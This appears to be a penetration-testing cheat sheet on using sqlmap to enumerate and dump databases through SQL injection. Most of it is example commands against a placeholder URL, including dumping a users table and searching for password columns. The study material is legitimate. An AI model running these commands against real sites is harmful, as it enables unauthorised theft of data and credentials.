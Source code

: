## Table Enumeration

To get the tables (`--tables`) from a specific DB (`-D <db name>`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

To dump (`--dump`) all the data from a table (`-T <table name>`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

> We can change the dump output file format with `--dump-format`
{: .prompt-tip}

## Table/Row Enumeration 

When dealing with large tables with many columns and/or rows, we can specify the columns (`-C`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

We can limit how much we want to see:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```

## Conditional Enumeration 

If there is a requirement to retrieve certain rows based on a known WHERE condition (`--where`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

## Full DB Enumeration 

We can retrieve all the db with `--dump-all`. It is recommendable to skip some default tables: `--dump-all --exclude-sysdbs`.

## DB Schema Enumeration 

If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture (`--schema`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --schema
```

## Searching for Data 

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest (`--search`). It is similar to the SQL operator **LIKE**:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --search -T user 
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --search -C pass
```
